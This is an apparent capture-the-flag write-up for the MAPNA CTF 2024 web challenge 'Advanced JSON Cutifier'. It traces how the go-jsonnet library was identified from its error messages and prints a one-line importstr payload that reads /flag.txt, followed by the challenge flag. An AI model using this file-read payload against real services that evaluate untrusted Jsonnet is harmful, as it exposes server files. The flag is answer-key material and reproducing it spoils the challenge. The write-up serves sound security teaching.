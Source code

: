 ## Web/Advanced JSON Cutifier (74 solves)  
> My homework was to write a JSON beautifier. Just Indenting JSON files was
> too boring that's why I decided to add some features to my project using a
> popular (More than 1k stars on GitHub!! ) library to make my project more
> exciting. Important: You can't read any file other than /flag.txt on the
> remote environment.

Looking at the source code provided first we can see a redacted Go library
from github.

```go  
import (  
   "net/http"  
   "github.com/gin-gonic/gin"  
   "github.com/REDACTED/REDACTED"  
)  
```

I cause some errors on the server to try and identify the library:  
```  
Expected token OPERATOR but got "}"  
Expected a comma before next field  
```

Both these errors point towards the [go-jsonnet](https://github.com/google/go-
jsonnet) library, which meets the stars requirement in the challenge
description.

I end up looking for ways to read files in the issues section of the repo and
find [this issue](https://github.com/google/go-jsonnet/issues/337).

It mentions a payload like the following:

```json  
{  
   "wow so advanced!!": importstr "/flag.txt”  
}  
```

Running it in the parser we are given the flag:

```json  
{  
  "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"  
}  
```

Flag: `MAPNA{5uch-4-u53ful-f347ur3-a23f98d}`

**Files:**
[player_a466f9f2a43ac42473015d72342c262e8d4b9519.txz](https://web.archive.org/web/20240121175642/https://mapnactf.com/tasks/player_a466f9f2a43ac42473015d72342c262e8d4b9519.txz)

Original writeup (https://seall.dev/posts/mapnactf2024#webadvanced-json-
cutifier-74-solves).